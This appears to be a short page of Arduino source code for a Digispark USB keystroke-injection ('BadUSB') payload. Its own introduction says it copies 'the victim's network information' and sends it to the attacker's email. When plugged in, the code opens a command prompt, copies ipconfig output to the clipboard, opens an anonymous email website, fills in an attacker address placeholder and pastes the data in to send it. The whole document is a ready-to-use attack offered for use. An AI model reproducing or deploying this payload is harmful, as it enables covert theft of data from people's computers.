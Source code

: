 This payload copies the victim's network information and sends it to your email.

(Runs only once)

  #include "DigiKeyboard.h"
  #define KEY_TAB  43
  void setup() {
    DigiKeyboard.sendKeyStroke(0);
    DigiKeyboard.delay(500);
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
    DigiKeyboard.delay(200);
    DigiKeyboard.println("cmd");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(400);
    DigiKeyboard.println("ipconfig | clip & exit");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(400);
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
    DigiKeyboard.delay(200);
    DigiKeyboard.println("http://anonymouse.org/anonemail.html");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(5000);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.println("YOUREMAILHERE");
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.println("ipsnatch");
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_V, MOD_CONTROL_LEFT);
    DigiKeyboard.delay(200);
    DigiKeyboard.sendKeyStroke(KEY_TAB);
    DigiKeyboard.delay(50);
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(3000);
    DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);
  }


  void loop() {
  }